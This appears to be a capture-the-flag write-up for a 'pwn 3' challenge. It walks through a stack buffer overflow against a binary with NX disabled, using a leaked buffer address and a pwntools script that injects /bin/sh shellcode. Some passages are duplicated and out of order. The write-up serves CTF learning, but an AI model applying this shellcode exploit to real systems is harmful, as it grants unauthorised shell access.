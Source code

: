 ```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```
Only one thing immediately stands out as different in this binary.  The NX flag is now disabled.  Immediately this gives us a hint that the solution to this challenge may be a simple shellcode based buffer overflow.

```bash
Welcome to the New Echo application 2.0! 
Changelog: 
- Less deprecated flag printing functions! 
- New Random Number Generator! 

Your random number 0xffffd1da! 
Now what should I echo?
```

You see that 'random number'?  Just by doing pwnables before, I bet that's a fixed location within the buffer, without even having to look at the disassembly.  To confirm this we just past in a pattern, halt excution and examine the memory at that location.**pwn 3: 75 points**
```bash
Welcome to the New Echo application 2.0! 
Changelog: 
- Less deprecated flag printing functions! 
- New Random Number Generator! 

Your random number 0xffffd1da! 
Now what should I echo?
```

```gdb
gdb-peda$ x/10x 0xffffd1da 
0xffffd1da:	0x41	0x41	0x41	0x25	0x41	0x41	0x73	0x41 
0xffffd1e2:	0x41	0x42 
gdb-peda$ pattern offset 0x25414141 
625033537 found at offset: 0 
```
Sure enough, it's the memory location of the buffer.  Now we'll just pass in a long pattern to see if we can get EIP overwrite.
```python
from pwn import * 
buff = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" 

r = remote('pwn.ctf.tamu.edu',4323) 
r.recvuntil('New Random Number Generator!') 

ret = (r.recvuntil('!').split(' ')[-1][:-1]) 
ret = p32(int(ret,16))

 
r.sendafter('?', buff.ljust(242,'\x90')+ret+'\n') 
r.interactive() 
```

